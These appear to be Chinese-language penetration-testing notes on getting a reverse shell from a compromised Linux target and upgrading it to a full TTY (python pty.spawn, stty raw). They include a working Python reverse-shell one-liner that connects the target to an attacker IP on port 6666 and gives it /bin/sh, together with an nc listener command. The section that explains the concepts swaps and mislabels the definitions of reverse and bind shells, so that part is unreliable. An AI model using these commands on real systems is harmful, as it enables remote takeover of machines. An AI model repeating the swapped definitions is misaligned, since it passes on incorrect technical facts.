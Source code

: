 [Linux 反向 shell 升级为完全可用的 TTY shell - sainet - 博客园](https://www.cnblogs.com/sainet/p/15783539.html)

1. 首先连接到 shell 后，先检查一下 python 的可用性， 用 which 命令检查：

```Bash
which python python2 python3
```

只要安装了其中任何一个，就将返回已安装二进制文件的路径。

1. 在靶机上输入以下命令（使用机器上可用的 python 版本）

```Rust
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

1. 接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```Bash
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

1. 键入 ctrl-z 以将 shell 发送到后台。
2. 设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作。

```Bash
stty raw -echo;fg
```

回车一次后输入 reset 再回车将再次进入 shell 中：

## 反弹shell

**反向 shell（Reverse Shell）：**

- 攻击者的系统主动连接到目标系统上开放的端口，建立控制台会话。
- 目标系统运行监听程序，等待攻击者连接。
- 反向 shell 对于穿越防火墙和网络限制较为方便，因为攻击者的系统主动发起连接。
- 这种连接方式通常能够绕过入站防火墙规则。
- 使用反向 shell，攻击者需要知道目标系统的 IP 地址和一个开放端口，以便建立连接。

**反弹 shell（Bind Shell）：**

- 目标系统主动连接到攻击者服务器，建立控制台会话。
- 攻击者监听本地ip的一个端口，目标系统连接到该端口。
- 反弹 shell 通常需要攻击者知道目标系统的 IP 地址和一个开放端口，攻击者需要监听这个端口。
- 反弹 shell 可能会受到目标系统的出站防火墙规则的影响，因为目标系统需要主动发起连接。

发现一个可以执行反弹shell的攻击点，输入python的反弹shell命令

```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.200.131",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MmQyOTZiY2UwNTliOTU1YjAyZDk5YjAxZDI3ZGFjM2FfR2taQjRYdXM5eGZmWUs4ZHBMY1RZOGpjTHZudjBJNVRfVG9rZW46UjZPeGJOSGU3b3NPWFd4Ym84Z2NNWXVpblhlXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

建立新终端，先监听本地6666端口，`nc -lvp 6666`
